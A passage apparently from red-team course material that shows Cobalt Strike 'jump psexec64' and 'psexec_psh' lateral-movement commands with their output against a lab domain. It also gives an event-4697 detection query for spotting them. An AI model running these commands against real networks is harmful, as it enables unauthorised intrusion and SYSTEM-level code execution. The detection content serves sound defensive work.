 The `psexec` / `psexec64` commands work by uploading a service binary to the target system, then creating and starting a Windows service to execute that binary.  Beacons executed this way run as SYSTEM.
```
beacon> jump psexec64 web.dev.cyberbotic.io smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10) on web via Service Control Manager (\\web\ADMIN$\768870c.exe)

Started service 768870c on web.dev.cyberbotic.io
[+] established link to child beacon: 10.10.122.30
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/96d/ff0/e14/psexec.png)

  

A reliable way of searching for PsExec is by looking for 4697 service created events.  These are often quite rare, unless a service comes with a software installation or something similar.  Cobalt Strike generates a random 7-character alphanumeric string which it uses for both the service name and binary filename.  When setting the binPath for the service, it uses a UNC path to the ADMIN$ share.
```
event.code: 4697 and winlog.event_data.ServiceFileName: \\\\*\\ADMIN$\\*.exe
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/3a2/662/488/4697.png)

  

`psexec_psh` doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit).  The pattern it uses by default is `%COMSPEC% /b /c start /b /min powershell -nop -w hidden -encodedcommand ...`.
```
beacon> jump psexec_psh web smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10) on web via Service Control Manager (PSH)

Started service bd119dd on web
[+] established link to child beacon: 10.10.122.30
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/55a/bbd/2bd/psexecpsh.png)